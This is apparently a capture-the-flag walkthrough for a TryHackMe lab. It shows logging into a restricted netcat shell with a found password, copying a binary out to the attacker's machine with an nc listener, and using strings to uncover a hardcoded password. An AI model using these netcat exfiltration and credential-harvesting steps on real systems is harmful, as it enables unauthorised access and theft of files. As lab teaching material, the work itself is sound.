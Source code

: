 Connect to the port `4420` using the password `sardinethecat` which displayed in the `note.txt`

```tsx
┌──(kali㉿kali)-[~]
└─$ nc 10.10.166.230 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls -l home
total 4
drwxr-xr-x 2 0 0 4096 Apr  3  2021 catlover
ls -la home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
home/catlover/runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

# Gain Access → Get 1st flag

The `runme` binary is not available to execute with the current shell. Moreover, on the current connection, we are restricted in using commands to analyze the file such as `strings`. Let’s transfer the binary to the local machine:

```bash
#Local machine:
nc -lvnp 4444

#Target machine:
nc <LOCAL_IP> 4444 < /home/catlover/runme
```

Use `strings` to display printable strings in the file:

```tsx
[REDACTED...]
rebecca
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
[REDACTED...]
```

The binary requires a password for executing → If the password is accepted, it will generate a ******SSH****** Key → Then, it’ll write something into the `/tmp/gibmethesshkey` using `touch`.

Luckily, the `rebecca` displays before the required statement might be the password. Try it out!

```tsx
┌──(kali㉿kali)-[~/TryHackMe/CatPictures]
└─$ chmod +x runme      
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/CatPictures]
└─$ ./runme 
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued!
```
